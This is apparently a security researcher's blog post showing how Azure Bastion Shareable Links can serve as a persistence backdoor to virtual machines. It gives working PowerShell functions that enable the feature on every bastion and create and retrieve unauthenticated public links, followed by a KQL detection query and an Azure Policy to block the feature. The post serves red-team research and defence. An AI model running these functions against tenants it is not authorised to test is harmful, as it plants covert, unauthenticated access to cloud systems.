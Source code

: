 ```yaml
---
layout: post
title:  "Yet Another Azure VM Persistence Using Bastion Shareable Links"
date:   2022-11-26
---
```


Earlier this week Microsoft [announced the public preview of Shareable Links in Azure Bastion](https://learn.microsoft.com/en-us/azure/bastion/shareable-link). 

Out-of-the-box persistence for a Virtual Machine that is reachable through an Azure Bastion, allowing for yet [another](https://microsoft.github.io/Azure-Threat-Research-Matrix/Persistence/Persistence/) persistence mechanism in Azure?

I deployed an Azure Bastion to validate, enabled the feature, and generated a Shareable Link for a VM. The link has no additional authentication and is publicly accessible.

**Example link:** Public link for Bastion - [https://bst-c6bf3220-015d-4d6e-8c19-32ac484e341f.bastion.azure.com/api/shareable-url/074fa24e-8614-47ea-94f7-f9f901003598](https://bst-c6bf3220-015d-4d6e-8c19-32ac484e341f.bastion.azure.com/api/shareable-url/074fa24e-8614-47ea-94f7-f9f901003598) 

(![bastion](https://user-images.githubusercontent.com/26272119/204090894-4c9f4232-215a-472e-90d9-77dab0aba820.png)

To enable the feature and get a shareable link, the permissions listed below are required to perform this. These permissions are all associated with the Contributor role: 

- Microsoft.Network/bastionHosts/write
- Microsoft.Network/bastionHosts/createShareableLinks/action
- Microsoft.Network/bastionHosts/getShareableLinks/action

There are three operations required to configure the persistence:

1. Update the Bastion to enable the Shareable Link feature [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/bastion-hosts/create-or-update?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/bastion-hosts/create-or-update?tabs=HTTP) 
2. Create a Shareable Link for a specified VM [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/put-bastion-shareable-link/put-bastion-shareable-link?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/put-bastion-shareable-link/put-bastion-shareable-link?tabs=HTTP)
3. Retrieve the URL for the Shareable Link  [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/get-bastion-shareable-link/get-bastion-shareable-link?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/get-bastion-shareable-link/get-bastion-shareable-link?tabs=HTTP) 

To streamline enablement of the feature, I wrote two functions, that I plan to further improve and submit to [Microburst](https://github.com/NetSPI/MicroBurst). 

Note that it requires the Az module to be installed for it to retrieve a token:

```powershell
function Invoke-AzRestBastionShareableLink {

    # Author: Karim El-Melhaoui(@KarimMelhaoui), O3 Cyber
    # Description: PowerShell function for creating a shareable link in Azure Bastion
    # A VM must be specified as the link is attached to a VM.
    # https://learn.microsoft.com/en-us/azure/bastion/shareable-link

    [CmdletBinding()]
    Param(
    [Parameter(Mandatory=$true,
    HelpMessage="Name of VM to enable Shareable Link")]
    [string]$VMName = ""
    )

    $Token = Get-AzAccessToken
    $Headers = @{Authorization = "Bearer $($Token.Token)" }

    $AzBastions = Get-AzBastion
    Write-Output "Enabling Shareable Link feature on all Azure bastions"

    #Gets the ID of VM specified through name parameter to use for creating a shareable link
    $VMId = Get-AzVM -Name $VMName | Select-Object -ExpandProperty Id
    Write-Output "Id of VM: $VMId" 

    foreach ($AzBastion in $AzBastions) {

        
        $body = -join ('{"location": "',$AzBastion.location,'", "properties": {"enableShareableLink": "true","ipConfigurations": [{"name": "',$AzBastion.IpConfigurations.Name,'","properties":{"publicIPAddress": {"Id": "',$AzBastion.IpConfigurations.PublicIpAddress.Id,'"},"subnet":{"Id": "',$AzBastion.IpConfigurations.Subnet.Id,'"}}}]}}')
        $RGName = $AzBastion.ResourceGroupName
        $BastionName = $AzBastion.Name
        try {
            Write-Output "Enabling shareable links on $BastionName"
            Invoke-RestMethod -Method Put -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)?api-version=2022-05-01" -Headers $Headers -Body $body -ContentType "application/json"

        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
        
        #Generate body with VM ID specifie. 
        $VMBody = -join ('{"vms":[{"vm":{"id":"',$VMId,'"}}]}')

        try {
        #Creates shareable link for specified VM
        Invoke-RestMethod -Method Post -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)/createShareableLinks?api-version=2022-05-01" -Headers $Headers -Body $VMBody -ContentType "application/json"

        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
    }
}

Invoke-AzRestBastionShareableLink
```

Once the feature is enabled on a Bastion, you can retrieve the links using the function below. The retrieval of the Shareable Link is separated into a separate function as the Shareable Link cannot be retrieved until the operation for enabling it is complete.

```powershell
function Get-AzRestBastionShareableLink {

    # Author: Karim El-Melhaoui(@KarimMelhaoui), O3 Cyber
    # Description: PowerShell function for getting an existing shareable link in Azure Bastion
    # https://learn.microsoft.com/en-us/azure/bastion/shareable-link

    $Token = Get-AzAccessToken
    $Headers = @{Authorization = "Bearer $($Token.Token)" }

    $AzBastions = Get-AzBastion
    Write-Output "Getting all Shareable Links for Azure bastions"
    foreach ($AzBastion in $AzBastions) {        
        $RGName = $AzBastion.ResourceGroupName
        $BastionName = $AzBastion.Name
    
        try {
            $BastionLink = Invoke-RestMethod -Method Post -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)/GetShareableLinks?api-version=2022-05-01" -Headers $Headers | Select-Object -ExpandProperty Value | Select-Object -ExpandProperty bsl
            Write-Host -ForegroundColor Green "Public link for Bastion: $BastionLink"
        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
    }
}

Get-AzRestBastionShareableLink
```

# Detection

The particular operations can be deteted in the AzureActivity log with the KQL query below:

```bash
AzureActivity
| where OperationNameValue =~ "MICROSOFT.NETWORK/BASTIONHOSTS/GETSHAREABLELINKS/ACTION" or OperationNameValue =~ "MICROSOFT.NETWORK/BASTIONHOSTS/CREATESHAREABLELINKS/ACTION"
| order by TimeGenerated desc
| project Caller, CallerIpAddress, OperationName, TimeGenerated, ResourceId
```

# Prevention

Ideally, you should also consider preventing the feature using Azure Policy with the below Policy Definition:

```json
{
  "mode": "All",
  "parameters": {
    "effect": {
      "type": "String",
      "allowedValues": ["Audit", "Disabled", "Deny"]
    }
  },
  "policyRule": {
    "if": {
      "allOf": [
        {
          "field": "type",
          "equals": "Microsoft.Network/BastionHosts"
        },
        {
          "field": "Microsoft.Network/BastionHosts/enableShareableLink",
          "equals": true
        }
      ]
    },
    "then": {
      "effect": "[parameters('effect')]"
    }
  }
}
```

Even though this is an intended feature and behavior, security teams should be aware of the feature and implement detections.